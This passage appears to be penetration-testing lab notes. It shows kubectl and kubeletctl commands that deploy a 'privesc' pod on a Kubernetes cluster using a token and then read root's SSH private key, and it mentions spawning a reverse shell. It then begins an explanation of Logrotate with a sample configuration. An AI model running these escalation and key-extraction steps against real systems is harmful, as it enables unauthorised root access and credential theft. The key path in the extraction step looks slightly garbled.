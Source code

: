     Once created, we can now create the new pod and check if it is running as expected.

4.  Creating a new POD

        kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
        
        pod/privesc created
        
        kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
    
    If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.

5.  Extracting Root's SSH Key

        kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc


<a id="org82c940d"></a>

## Logrotate

Logrotate is a Linux tool that manages log files to prevent disk overflow. It **renames** old log files, can **create** new ones, and **offers options** based on file **size** and **age**. It's controlled through *`etc/logrotate.conf` and configuration files in /~etc/logrotate.d~*. You can force rotation using -f/&#x2013;force or manually edit the status file (/var/lib/logrotate.status). Example configuration for dpkg logs is in /etc/logrotate.d/dpkg.
Utility options:

    cat /etc/logrotate.conf
    
    # see "man logrotate" for details
    
    # global options do not affect preceding include directives
    
    # rotate log files weekly
    weekly
    
    # use the adm group by default, since this is the owning group
    # of /var/log/syslog.
    su root adm
    
    # keep 4 weeks worth of backlogs
    rotate 4
    
    # create new (empty) log files after rotating old ones
    create
    